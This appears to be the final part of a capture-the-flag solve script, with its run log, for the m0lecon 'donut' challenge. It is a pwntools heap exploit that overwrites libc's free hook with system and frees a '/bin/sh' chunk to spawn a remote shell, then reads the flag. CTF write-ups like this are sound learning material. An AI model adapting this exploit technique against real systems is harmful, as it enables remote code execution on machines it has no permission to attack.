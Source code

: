 ```python
    # Chunk(addr=0x560443eff710, size=0x20, flags=)  ←  Chunk(addr=0x7f892ae57b27, size=0x0, flags=) 
    # so we allocate a throwaway chunk and then a chunk which we use to overwrite free_hook

    create_donut(r, 16, b"fake idk")
    create_donut(r, 16, p64(system))

    # when free_hook gets called rdi is the address being freed
    # so we make a chunk containing /bin/sh
    # and then free it (+1 bc cookie size is stored in char 0)
    # calling system("/bin/sh")

    binsh_addr = create_donut(r, 16, b"/bin/sh") + 1
    log.info("/bin/sh chunk location at: " + hex(binsh_addr))

    r.sendline(b"t")
    r.sendline(hex(binsh_addr).encode())

    import time

    time.sleep(1)

    r.sendline(b"cat flag.txt; exit;")
    r.sendline(b"l")
    log.info((b"flag found: " + re.search(b"(ptm{.*})", r.recvall()).group(1)).decode())

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

```text
❯ python solve.py REMOTE
[*] '/home/sky/Dropbox/ctf/m0lecon-teaser/donut/donut'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[*] '/home/sky/Dropbox/ctf/m0lecon-teaser/donut/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/sky/Dropbox/ctf/m0lecon-teaser/donut/ld-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.m0lecon.it on port 1743: Done
Solving PoW...
Solved!
/home/sky/Dropbox/ctf/m0lecon-teaser/donut/solve.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(starting + str(i))
[*] leaked heap chunk address: 0x558e5bb9bac0
[*] leaked mmapped address: 0x7fccca4c9010
```